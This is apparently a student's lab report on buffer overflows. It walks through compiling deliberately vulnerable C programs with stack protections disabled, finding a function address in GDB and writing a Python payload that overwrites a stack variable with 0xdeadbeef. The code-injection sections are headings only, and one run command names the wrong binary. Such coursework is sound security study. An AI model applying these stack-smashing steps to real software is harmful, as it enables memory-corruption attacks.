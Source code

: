 # 21110073 Le Bui Huu Phuc
# Lab #1: Buffer Overflow
# Task 1: Stack smashing by memory overwritten
## 1.1. bof1.c
- Compile the program using the following command:
![img1.1](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/fd7842bc5625ec9590414f935437903fb41a70d5/A%CC%89nh%20ma%CC%80n%20hi%CC%80nh%202024-06-27%20lu%CC%81c%2020.02.43.png)
- This command disables stack protection and sets the boundary.
![img1.2](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.2.png?raw=true)
- Use the GDB command disas to get the address of push ebp in the secretFunc() function. The address obtained is:
![img1.3](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.3.png?raw=true)
- 0x0804846b
- Create the input payload using Python and execute the program with the crafted input:
![img1.3](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof1.4.png?raw=true)
- Here, the address 0x0804846b is appended to the payload, and ./bof1.o is executed with 1 as the argument.
## 1.2. bof2.c
- Crafting the Payload
+ Create a string that is 44 bytes long, where the first 40 bytes fill buf, and the next 4 bytes overwrite check with 0xdeadbeef. Python command to generate such a payload:
```python python -c "print('A'*40 + '\xef\xbe\xad\xde')" > input.txt ```
- Compile the Program:
```python gcc bof2.c -o bof2.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2```
- Run the Program:
``` ./bof1.o < input.txt```
![img2.1](https://github.com/neptuneizme/Report_InformationSecurityLab/blob/main/img/bof2.1.png?raw=true)


## 1.3. bof3.c
# Task 2: Code injection
## 2.1. Preparing shell code
## 2.2. Preparing the payload
## 2.3. Code injection

